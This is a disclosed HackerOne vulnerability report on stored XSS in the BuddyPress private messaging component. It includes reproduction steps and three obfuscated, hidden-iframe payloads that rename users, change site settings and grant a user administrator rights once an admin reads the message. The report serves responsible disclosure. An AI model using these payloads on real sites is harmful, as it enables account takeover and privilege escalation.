 # Stored XSS in Private Message component (BuddyPress)

## Report Details
- **Report ID**: 487081
- **URL**: https://hackerone.com/reports/487081
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-01-28T07:45:00.790Z
- **Disclosed**: 2019-03-08T22:28:04.374Z

## Reporter
- **Username**: klmunday
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
## Description:
WordPress version: **5.0.3**
BuddyPress version: **4.1.0**

Users with accounts can send private messages containing rendered HTML to other uses, this includes being able to execute javascript code via elements such as scripts, iframe etc. The XSS is stored in the database and is triggered any time a user reads the message. This includes the message preview window which shows the last message the user has received (or sent).

The code which runs can be exploited to perform any action that the "Victim" has permissions for, this is especially dangerous for privileged users such as administrators since it allows access to the WordPress settings and private information such as users emails. This includes any actions for other plugins etc.

The only prerequisites for this is that private messaging is enabled in the BuddyPress settings and that the attacker has an account (with default permissions).

## Steps To Reproduce:
Via composing a new message
1. Go to another users profile
2. Click private message
3. Type any subject
4. Type the following message  `Test<iframe src=javascript:alert(1) width=0 height=0 style=display:none;></iframe>`
5. Send the message
6. View the message (triggers the XSS)
7. Wait for the victim to read the message

Via replying to an existing thread
1. Go to your inbox
2. View any message you have received
3. Respond to the message with `Test<iframe src=javascript:alert(1) width=0 height=0 style=display:none;></iframe>`
4. View the message (triggers the XSS)
5. Wait for the victim to read the message

Payloads containing spaces can also be sent however the src cannot contain any spaces or quotations so it needs to be converted into char codes, combined into a string and eval'd:
**example:**
```
<iframe src=javascript:eval(String.fromCharCode.apply(null,[108,101,116,32,116,101,115,116,32,61,32,49,50,51,59,10,97,108,101,114,116,40,116,101,115,116,41,59])) width=0 height=0 style=display:none;></iframe>
```
**would run**
```javascript
let test = 123;
alert(test);
```

Larger payloads can be used. However, due to the code needing to be in an array of char codes (if it contains spaces or quotations) I have written a small python script to convert javascript code into a sendable message. It also includes some Proof of concept payloads which perform the following:
- Change the users username to `HACKED` (affects any user)
- Change the websites title and description (requires a privileged user to read the message)
- Change a users permissions to administrator (requires a privileged user to read the message)

Please see the attached zip file for the script and payloads (they have not been pre-converted)

See some example payloads below: 
(note: the spacing is to prevent the iframe element being visible in the message exert displayed in the inbox - it is not required for it to work, nor is the start of the message, only the iframe is needed).
**Change username to `HACKED`**
```
This is a malicious message.                    <iframe src=javascript:eval(String.fromCharCode.apply(null,[108,101,116,32,110,97,109,101,32,61,32,112,97,114,101,110,116,46,66,80,95,78,111,117,118,101,97,117,46,109,101,115,115,97,103,101,115,46,114,111,111,116,85,114,108,46,115,112,108,105,116,40,39,47,39,41,91,50,93,59,10,108,101,116,32,117,114,108,32,61,32,112,97,114,101,110,116,46,108,111,99,97,116,105,111,110,46,111,114,105,103,105,110,32,43,32,39,47,109,101,109,98,101,114,115,47,39,32,43,32,110,97,109,101,32,43,32,39,47,112,114,111,102,105,108,101,47,101,100,105,116,47,103,114,111,117,112,47,49,47,39,59,10,10,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,117,114,108,44,32,116,121,112,101,58,32,39,71,69,84,39,44,32,115,117,99,99,101,115,115,58,32,102,117,110,99,116,105,111,110,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,32,123,10,32,32,32,32,108,101,116,32,100,111,109,32,61,32,112,97,114,101,110,116,46,106,81,117,101,114,121,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,59,10,32,32,32,32,100,111,109,46,102,105,110,100,40,39,105,110,112,117,116,91,110,97,109,101,61,34,102,105,101,108,100,95,49,34,93,39,41,46,118,97,108,40,39,72,65,67,75,69,68,39,41,59,10,32,32,32,32,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,100,111,109,46,102,105,110,100,40,39,35,112,114,111,102,105,108,101,45,101,100,105,116,45,102,111,114,109,39,41,46,97,116,116,114,40,39,97,99,116,105,111,110,39,41,44,32,116,121,112,101,58,32,39,80,79,83,84,39,44,32,100,97,116,97,58,32,100,111,109,46,102,105,110,100,40,39,35,112,114,111,102,105,108,101,45,101,100,105,116,45,102,111,114,109,39,41,46,115,101,114,105,97,108,105,122,101,40,41,125,41,10,125,125,41,59,10])) width=0 height=0 style=display:none;></iframe>
```

**Change site title and description:** (requires admin to read message)
```
This is a malicious message.                    <iframe src=javascript:eval(String.fromCharCode.apply(null,[108,101,116,32,110,101,119,95,115,105,116,101,95,116,105,116,108,101,32,61,32,39,72,65,67,75,69,68,39,59,10,108,101,116,32,110,101,119,95,115,105,116,101,95,100,101,115,99,114,105,112,116,105,111,110,32,61,32,39,118,105,97,32,88,83,83,39,59,10,108,101,116,32,117,114,108,32,61,32,112,97,114,101,110,116,46,108,111,99,97,116,105,111,110,46,111,114,105,103,105,110,32,43,32,39,47,119,112,45,97,100,109,105,110,47,111,112,116,105,111,110,115,45,103,101,110,101,114,97,108,46,112,104,112,39,59,10,10,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,117,114,108,44,32,116,121,112,101,58,32,39,71,69,84,39,44,32,115,117,99,99,101,115,115,58,32,102,117,110,99,116,105,111,110,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,32,123,10,32,32,32,32,108,101,116,32,100,111,109,32,61,32,112,97,114,101,110,116,46,106,81,117,101,114,121,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,59,10,32,32,32,32,100,111,109,46,102,105,110,100,40,39,105,110,112,117,116,91,110,97,109,101,61,34,98,108,111,103,110,97,109,101,34,93,39,41,46,118,97,108,40,110,101,119,95,115,105,116,101,95,116,105,116,108,101,41,59,10,32,32,32,32,100,111,109,46,102,105,110,100,40,39,105,110,112,117,116,91,110,97,109,101,61,34,98,108,111,103,100,101,115,99,114,105,112,116,105,111,110,34,93,39,41,46,118,97,108,40,110,101,119,95,115,105,116,101,95,100,101,115,99,114,105,112,116,105,111,110,41,59,10,32,32,32,32,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,112,97,114,101,110,116,46,108,111,99,97,116,105,111,110,46,111,114,105,103,105,110,32,43,32,39,47,119,112,45,97,100,109,105,110,47,111,112,116,105,111,110,115,46,112,104,112,39,44,32,116,121,112,101,58,32,39,80,79,83,84,39,44,32,100,97,116,97,58,32,100,111,109,46,102,105,110,100,40,39,102,111,114,109,39,41,46,115,101,114,105,97,108,105,122,101,40,41,125,41,10,125,125,41,59])) width=0 height=0 style=display:none;></iframe>
```

**Change user permissions for the user with id `2` to administrator** (requires admin to read message)
```
This is a malicious message.                    <iframe src=javascript:eval(String.fromCharCode.apply(null,[108,101,116,32,117,114,108,32,61,32,112,97,114,101,110,116,46,108,111,99,97,116,105,111,110,46,111,114,105,103,105,110,32,43,32,39,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,101,100,105,116,46,112,104,112,63,117,115,101,114,95,105,100,61,50,38,119,112,95,104,116,116,112,95,114,101,102,101,114,101,114,61,47,119,112,45,97,100,109,105,110,47,117,115,101,114,115,46,112,104,112,39,59,10,10,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,117,114,108,44,32,116,121,112,101,58,32,39,71,69,84,39,44,32,115,117,99,99,101,115,115,58,32,102,117,110,99,116,105,111,110,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,32,123,10,32,32,32,32,108,101,116,32,100,111,109,32,61,32,112,97,114,101,110,116,46,106,81,117,101,114,121,40,104,116,109,108,95,114,101,115,112,111,110,115,101,41,59,10,32,32,32,32,100,111,109,46,102,105,110,100,40,39,115,101,108,101,99,116,91,110,97,109,101,61,34,114,111,108,101,34,93,39,41,46,112,114,111,112,40,34,115,101,108,101,99,116,101,100,73,110,100,101,120,34,44,32,52,41,59,10,32,32,32,32,112,97,114,101,110,116,46,106,81,117,101,114,121,46,97,106,97,120,40,123,117,114,108,58,32,100,111,109,46,102,105,110,100,40,39,102,111,114,109,39,41,46,97,116,116,114,40,39,97,99,116,105,111,110,39,41,44,32,116,121,112,101,58,32,39,80,79,83,84,39,44,32,100,97,116,97,58,32,100,111,109,46,102,105,110,100,40,39,102,111,114,109,39,41,46,115,101,114,105,97,108,105,122,101,40,41,125,41,10,125,125,41,59])) width=0 height=0 style=display:none;></iframe>
```

For a more detailed write-up including images please view this [Google Doc (unlisted)](https://docs.google.com/document/d/1RgMWJlYen9iR_JTxATYR4TJWAPKRgaSKuiiqZp7x8L0/edit?usp=sharing) (if this is not allowed please let me know so that I can include them here if necessary)

## Impact

An attacker could craft a payload to perform any action which their target can perform. This is especially dangerous for administrators since if the attacker targeted them they could modify site data/content, modify accounts, read sensitive information such as users private information and more.

In my testing I was able to change profile names, change users passwords, read users email addresses, modify pages, modify the site data and modify the WordPress settings including the sites email address.

I did not find anything I could not exploit which the targeted user had permissions to do, it seems depending on the target that the attacker can achieve full access to wp-admin and any other plugins that are installed and even chain requests together within a single attack.

It would also be possible to create a worm which when read would email its content to every other user again.

## Attachments
- BuddyPress_XSS_PoC.zip
